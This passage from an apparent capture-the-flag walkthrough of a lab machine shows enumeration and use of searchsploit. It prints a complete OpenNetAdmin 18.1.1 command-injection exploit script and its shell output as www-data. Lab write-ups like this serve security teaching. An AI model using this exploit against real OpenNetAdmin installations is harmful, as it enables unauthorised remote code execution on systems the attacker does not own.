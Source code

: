 ```bash
/server-status (Status: 403)
```
It reveals a few dirs which are irelevant the one we are interested in is `/music`.

Navigating to music we check out everything on the website but we get a redirect to another site when we click on the `login` section on the site called `/ona`

This takes us to a site that we can see is running OpenNetAdmin which conveneiently has an exploit on exploit-db

We can see on the page that the version is `18.1.1` so we run `searchsploit` on this 
```bash
kali@kali:~$ searchsploit OpenNetAdmin 18.1.1
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                          | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                           | php/webapps/47691.sh
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We will attempt to use the .sh file for the exploit, This is the exploit:
```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

We run it with `./exploit.sh http://10.10.10.171/ona/login.php` and get a shell as www-data!
```bash
kali@kali:~/boxes/openadmin$ ./exploit.sh http://10.10.10.171/ona/login.php
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ cd local
$ ls
config
config_dnld.php
dcm.php
images
```